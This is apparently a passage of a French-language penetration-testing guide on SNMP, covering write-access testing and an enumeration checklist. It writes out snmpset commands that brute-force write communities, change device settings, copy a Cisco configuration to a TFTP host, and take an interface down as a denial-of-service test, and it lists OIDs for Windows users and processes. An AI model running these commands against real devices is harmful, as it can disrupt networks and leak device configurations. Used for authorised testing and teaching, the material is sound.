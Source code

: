 ```bash
```

## 🔐 Phase 6 : SNMP Write Access

### Test Write Community
```bash
# 1. Test si write access (dangereux !)
snmpset -c private -v1 target.com 1.3.6.1.2.1.1.4.0 s "Test contact"

# 2. Avec différentes communities
for community in private manager admin write; do
    echo "Testing write with $community"
    snmpset -c $community -v1 target.com 1.3.6.1.2.1.1.4.0 s "test" 2>/dev/null
done

# 3. Restore original value (important !)
snmpset -c private -v1 target.com 1.3.6.1.2.1.1.4.0 s "Original Contact"
```

### Exploitation Write Access
```bash
# ⚠️ ATTENTION : Peut impacter le système !

# 1. Modification configuration (avec prudence)
snmpset -c private -v1 target.com OID_CONFIG i new_value

# 2. Cisco specific (si c'est un équipement Cisco)
# Copie de configuration via TFTP
snmpset -c private -v1 cisco_device TFTP_OID s "192.168.1.100"

# 3. Restart interface (test de DoS)
snmpset -c private -v1 target.com 1.3.6.1.2.1.2.2.1.7.1 i 2  # down
snmpset -c private -v1 target.com 1.3.6.1.2.1.2.2.1.7.1 i 1  # up
```

## 📋 Checklist SNMP Enumeration

### ✅ Tests Essentiels :
1. **Port Discovery** - 161/UDP ouvert ?
2. **Community Brute Force** - public, private, custom
3. **System Information** - OS, version, uptime
4. **Network Configuration** - Interfaces, IPs, routes
5. **Process Enumeration** - Services, applications
6. **Write Access Test** - Community avec droits write

### ✅ OIDs Prioritaires :
- **1.3.6.1.2.1.1** - Informations système
- **1.3.6.1.2.1.2.2.1.2** - Interfaces réseau
- **1.3.6.1.2.1.4.20.1.1** - Adresses IP
- **1.3.6.1.2.1.25.4.2.1.2** - Processus
- **1.3.6.1.4.1.77.1.2.25** - Utilisateurs Windows

